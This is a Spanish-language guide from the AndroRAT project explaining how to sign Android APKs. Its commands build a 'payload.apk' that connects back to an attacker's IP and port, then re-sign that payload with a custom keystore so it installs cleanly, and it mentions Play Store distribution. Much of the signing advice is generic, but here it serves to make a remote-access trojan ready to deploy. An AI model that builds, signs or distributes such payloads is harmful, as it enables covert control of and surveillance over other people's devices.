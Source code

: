 # Guía de Firma de APK - AndroRAT

## Firma por Defecto (Debug)

AndroRAT usa automáticamente un certificado de debug integrado en `sign.jar` para firmar APKs durante el desarrollo.

```bash
python3 androRAT.py --build -i 192.168.1.33 -p 4444 -o payload.apk
```

El APK será firmado automáticamente con el certificado de debug.

## Crear tu Propio Certificado (Recomendado para Producción)

### Paso 1: Generar un Keystore Personalizado

```bash
keytool -genkeypair -v \
  -keystore my-release-key.jks \
  -keyalg RSA \
  -keysize 2048 \
  -validity 10000 \
  -alias my-key-alias \
  -storepass your_password \
  -keypass your_password \
  -dname "CN=YourName,OU=YourOrg,O=YourCompany,L=City,ST=State,C=US"
```

**Importante:** Guarda tu contraseña de forma segura. **No subas el archivo .jks a GitHub.**

### Paso 2: Firmar APK con tu Certificado

```bash
# Después de compilar
java -jar Jar_utils/sign.jar \
  -a payload.apk \
  --ks my-release-key.jks \
  --ksAlias my-key-alias \
  --ksPass pass:your_password \
  --ksKeyPass pass:your_password \
  --skipZipAlign \
  --allowResign
```

### Paso 3: Verificar Firma

```bash
java -jar Jar_utils/sign.jar -y payload-signed.apk
```

## Esquemas de Firma Soportados

- **V1 (JAR Signature)** - Android 2.3+
- **V2 (APK Signature Scheme)** - Android 7.0+
- **V3 (APK Signature Scheme v3)** - Android 9.0+

## Seguridad

### ⚠️ Nunca compartas tu keystore

- **NO** subas archivos `.jks` o `.keystore` a GitHub
- **NO** compartas tus contraseñas
- Usa `.gitignore` para excluir keystores:

```gitignore
*.jks
*.keystore
my-release-key.jks
```

### ✅ Para distribución segura

1. Usa certificados únicos por proyecto
2. Almacena keystores en ubicaciones seguras
3. Usa contraseñas fuertes
4. Considera usar Android App Bundle (.aab) para Play Store

## Troubleshooting

### Error: "could not execute zipalign"

Esto es normal en Termux. Usa el flag `--skipZipAlign`:

```bash
java -jar Jar_utils/sign.jar -a payload.apk --skipZipAlign
```

### Error: "already signed"

Usa `--allowResign` para re-firmar:

```bash
java -jar Jar_utils/sign.jar -a payload.apk --allowResign
```

## Referencias

- [Android App Signing](https://developer.android.com/studio/publish/app-signing)
- [Uber APK Signer](https://github.com/patrickfav/uber-apk-signer)
- [APK Signature Scheme v3](https://source.android.com/security/apksigning/v3)
